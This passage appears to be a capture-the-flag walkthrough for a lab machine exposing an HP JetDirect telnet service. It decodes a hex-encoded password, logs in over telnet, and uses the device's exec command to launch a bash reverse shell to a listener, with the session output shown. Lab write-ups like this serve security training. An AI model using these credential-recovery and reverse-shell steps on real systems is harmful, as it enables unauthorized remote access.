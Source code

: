 ```bash
❯ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5
```
This returns a password, which in fact was encoded in an hexadecimal string: `P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i`.

### TELNET (Port 23/tcp)
Now that we have credentials, we can try to login to the system's telnet port:
```bash
❯ telnet 10.10.11.107 23
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
We can see the command `exec`, which allow us to achieve RCE through telnet:
```bash
# Telnet terminal
> exec bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/3333 0>&1"
# Listener terminal
❯ nc -nlvp 3333
Connection from 10.10.11.107:55840
bash: cannot set terminal process group (1004): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
lp@antique:~$ hostname -I
hostname -I
10.10.11.107 dead:beef::250:56ff:feb9:62bf 
```
